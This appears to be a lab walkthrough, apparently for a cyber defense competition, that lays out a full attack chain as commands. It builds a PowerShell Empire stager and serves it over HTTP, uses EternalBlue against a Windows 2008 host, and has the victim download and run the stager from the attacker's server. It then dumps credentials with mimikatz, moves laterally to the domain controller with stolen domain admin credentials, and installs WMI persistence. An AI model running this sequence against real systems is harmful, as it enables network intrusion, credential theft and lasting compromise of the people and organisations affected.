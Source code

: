 ## Log in to Kali machine
```
ssh -i wbcloud.pem ec2-user@[kali ip]
```
Your call on running the rest of the commands as root, but it's recommended for simplicity: `sudo su -`

## Install Powershell Empire
```
cd /opt
git clone https://github.com/EmpireProject/Empire.git
cd Empire
setup/install.sh
```
Just press enter at the first two install screens.
When it asks for a server negotiation password enter something like `ccdc`

## Create an Empire stager and serve it via the web
```
# Remember Powershell IS case sensitive
./empire
listeners
uselistener [tab][tab]#See available listener types.  Needs space before tab.
uselistener http
info
execute

back
back
usestager [tab][tab] to list stagers
usestager windows/launcher_bat
set Listener http
execute
#Writes stager to /tmp/launcher.bat)
exit

mkdir serve
cd serve
mv /tmp/launcher.bat .
python -m SimpleHTTPServer 8000 &

cd ..
./empire
# http listener will automatically start
```

## Exploit Old Win2008 box with EternalBlue
```
# Start a new ssh window for meterpreter
ssh -i wbcloud.pem ec2-user@[kali ip]

msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 10.1.0.15
exploit
# After "WIN" is displayed, press enter.  You should see C:\Windows\system32
# You could ctl-z and continue exploitation with metasploit here
# use post/multi/manage/shell_to_meterpreter
# set SESSION 1
# exploit
# sometimes you need to kill the listener and run it again
```

## Call our Empire stager
```
powershell.exe -C "Invoke-WebRequest 'http://10.1.0.200:8000/launcher.bat' -OutFile launcher.bat
launcher.bat
# You should see a web request then an agent callback in the Empire window
```

## Use the session
```
back
interact [tab]
info
mimikatz
# sekurlsa::logonpasswords
# only the computer ID credentials are cached right now
```

## Fake a login from DomAdmin
# Start Remote Desktop Client
# Enter IP for Member 1
# Login as DomAdmin:DAPassword1!

## Run mimikatz from Empire again
```
mimikatz
# Automatically runs logon passwords
creds
# make a note of the id for DomAdmin
```

## Connect to the Domain Controller
```
# Still interacting with the session
usemodule lateral_movement/invoke_psremoting
set Listener http
set CredID [DomAdmin id (password not hash)]
set ComputerName pdc
run
# You should see a connect back from the PDC
```

## Install persistence
```
usemodule persistence/elevated/wmi
info
set Listener http
set DailyTime 23:40
# Five minutes or so from now
# Acknowledge that this is not opsec safe
# Wait for five minutes or so, then watch for callback
```

## Test reboot persistence
```
#Using the remote desktop connection, reboot the PDC.
```
